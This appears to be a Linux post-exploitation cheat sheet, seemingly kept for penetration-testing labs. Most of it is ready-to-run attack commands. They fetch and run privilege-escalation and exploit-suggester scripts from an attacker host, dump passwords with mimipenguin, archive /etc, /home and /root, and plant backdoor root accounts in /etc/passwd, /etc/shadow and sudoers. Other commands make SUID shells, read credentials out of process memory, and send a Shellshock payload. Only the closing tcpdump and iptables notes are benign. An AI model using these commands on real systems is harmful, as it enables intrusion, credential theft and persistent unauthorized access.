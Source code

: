 
# Linux

## Enumeration Scripts
Determine if kernel exploit is intended:
```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
```
```
ps -ef | grep -E "tmux|knock|vnc|tty"
```
```
wget http://$source_ip/tools_linux/lse.sh; bash lse.sh -l 2 | tee lse.sh.out
```
```
wget http://$source_ip/tools_linux/LinEnum.sh; bash LinEnum.sh -t | tee LinEnum.sh.out
```
```
wget http://$source_ip/tools_linux/linpeas.sh; bash linpeas.sh -s | tee linpeas.sh.out
```
```
wget http://$source_ip/tools_linux/linuxprivchecker.py; python linuxprivchecker.py | tee linuxprivchecker.py.out
```
```
wget http://$source_ip/tools_linux/linux-local-enum.sh; bash linux-local-enum.sh standard | tee linux-local-enum.sh.out
```
```
wget http://$source_ip/tools_linux/unix-privesc-check.sh; bash unix-privesc-check.sh | tee unix-privesc-check.sh.out
```
```
wget http://$source_ip/tools_linux/linux_security_test.sh; bash linux_security_test.sh | tee linux_security_test.sh.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --kernel | tee checksec.kernel.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --fortify-proc=1 | tee checksec.proc.out
```

### General Enumeration 

Writable files:
```
find / -writable -type d 2>/dev/null
```
```
find / -type d -perm -o+w 2>/dev/null
```

SUID:
```
find / -perm -u=s -type f 2>/dev/null
```
```
​find / -perm -4000 2>/dev/null
```

SGID:
```
find / -perm -g=s -type f 2>/dev/null
```

Mounted and unmounted volumes:
```
cat /etc/fstab
mount
lsblk
```

Device drivers and kernel modules:
```
lsmod
```
```
/sbin/modinfo <module_name>
```

Replace binary:
```
#! /bin/bash -p
bash -p
```
```
export PATH=./:$PATH
echo $PATH
```

## Process monitoring
```
wget http://$source_ip/tools_linux/pspy32; chmod +x pspy32; ./pspy32
```
```
wget http://$source_ip/tools_linux/pspy64; chmod +x pspy64; ./pspy64
```

## Exploit Suggesters
```
wget http://$source_ip/tools_linux/linux-exploit-suggester-2.pl; perl linux-exploit-suggester-2.pl | tee linux-exploit-suggester-2.pl.out
```
```
wget http://$source_ip/tools_linux/linux-exploit-suggester.sh; bash linux-exploit-suggester.sh | tee linux-exploit-suggester.sh.out
```
```
wget http://$source_ip/tools_linux/linuxprivchecker.py; python linuxprivchecker.py | tee linuxprivchecker.py.out
```
```
wget http://$source_ip/tools_linux/linux_kernel_exploiter.pl; perl linux_kernel_exploiter.pl | tee linux_kernel_exploiter.pl.out
```
```
wget http://$source_ip/tools_linux/Linux_Exploit_Suggester.pl; perl Linux_Exploit_Suggester.pl | tee Linux_Exploit_Suggester.pl.out
```


## Data Extraction
```
ifconfig -a; netstat -antp; arp -e; route -v; route -vn
```
```
tar -zcf linux_files.tar.gz /etc/* /home/* /root/* /var/www/* /var/log/*
```
Recursive search:
```
grep -rnwl '/path/to/somewhere/' -e "pattern"
```
```
rsync -azP example@example:/home/example/ ./
```
```
scp example@example:/home/example/ ./
```

## Password Dumping
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.py; python mimipenguin.py | tee mimipenguin.py.out
```
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.sh; bash mimipenguin.sh | tee mimipenguin.sh.out
```
```
wget http://$source_ip/tools_linux/memory-dump.sh
```

## Persistance
```
sudo echo "amxuser ALL=(ALL) ALL" >> /etc/sudoers
```
```
/usr/sbin/useradd -p 'openssl passwd -1 amxpass' amxuser 
```
```
/usr/sbin/useradd -p 'openssl passwd -1 -salt AbCD4536 amxpass' amxuser 
```
```
echo amxpass | passwd amxuser --stdin
```
```
echo 'amxuser::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
```
echo 'amxuser:x:0:0:root:/root:/bin/bash' >>/etc/passwd
echo 'amxuser:$1$ozUCi1Me$rBG3vK5.jZUScy39PSVtM1:14798:0:99999:7:::' >>/etc/shadow
```

## Exploit 

Making SUIG SGID copy of bash:
```bash
/bin/cp /bin/bash /tmp/tom; /bin/chown tom:admin /tmp/tom; chmod g+s /tmp/tom; chmod u+s /tmp/tom
/tmp/tom -p
```

If SUID binary execute another command, replace it with a function:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Dump memory:
```
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

```
echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c; gcc privsc.c -o privsc
```

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
sudo chown root:root /tmp/setuid
sudo chmod 4755 /tmp/setuid
```

Shellshock
```
curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://$target/cgi-bin/admin.cgi
```
## Network

Grep IPs
```
grep -oE "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}"
```

Using -X to output raw traffic
```
tcpdump -nX -r password_cracking_filtered.pcap | grep -A10 GET
```

Extract IP addresses from pcap
```
tcpdump -n -r dump.pcap | awk -F" " '{print $3}' | sort -u | head`
```

Filter for http requests
```
tcpdump -A -s 0 'tcp port 10443 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf>>2)) != 0)' -i eth0
```

Filter destination host
```
tcpdump -n dst host $target -r password_cracking_filtered.pcap
```

Filter for source host
```
tcpdump -n src host $target -r password_cracking_filter
```

Filter port
```
tcpdump -n port 81 -r password_cracking_filtered.pcap
```

Extract only ACK and PUSH packets
```
tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```

Create traffic counter for specific net
```
iptables -Z
iptables -N subnet_scan
iptables -A INPUT -d 10.11.1.0/24 -j subnet_scan
iptables -vL INPUT
```

```
iptables -Z
iptables -vn -L
```

Packet and byte counter using iptables
```
#!/bin/bash

# Reset counters and iptables rules
iptables -Z && iptables -F

# Measure incoming traffic from lab machine
iptables -I INPUT 1 -s 192.168.1.23 -j ACCEPT

# Measure outgoing traffic to lab machine
iptables -I OUTPUT 1 -d 192.168.1.23 -j ACCEPT
```
```
watch -n 1 iptables -nvL
```

## Grep 

```
grep -rnw /var/www/html -e "^.*example.*" --color
```
